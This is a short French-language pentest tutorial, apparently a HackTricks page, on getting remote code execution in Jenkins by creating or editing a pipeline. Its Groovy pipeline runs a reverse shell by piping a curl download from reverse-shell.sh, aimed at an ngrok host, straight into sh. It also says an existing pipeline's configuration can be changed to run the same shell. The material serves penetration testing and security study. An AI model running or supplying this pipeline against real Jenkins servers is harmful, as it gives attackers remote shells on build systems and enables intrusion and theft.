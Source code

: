 # Jenkins RCE Création/Modification de Pipeline

{{#include ../../banners/hacktricks-training.md}}

## Création d'un nouveau Pipeline

Dans "Nouvel élément" (accessible à `/view/all/newJob`), sélectionnez **Pipeline :**

![](<../../images/image (235).png>)

Dans la **section Pipeline**, écrivez le **reverse shell** :

![](<../../images/image (285).png>)
```groovy
pipeline {
agent any

stages {
stage('Hello') {
steps {
sh '''
curl https://reverse-shell.sh/0.tcp.ngrok.io:16287 | sh
'''
}
}
}
}
```
Enfin, cliquez sur **Save**, puis sur **Build Now** et le pipeline sera exécuté :

![](<../../images/image (228).png>)

## Modifier un Pipeline

Si vous pouvez accéder au fichier de configuration d'un pipeline configuré, vous pouvez simplement **le modifier en ajoutant votre reverse shell** puis l'exécuter ou attendre qu'il soit exécuté.

{{#include ../../banners/hacktricks-training.md}}
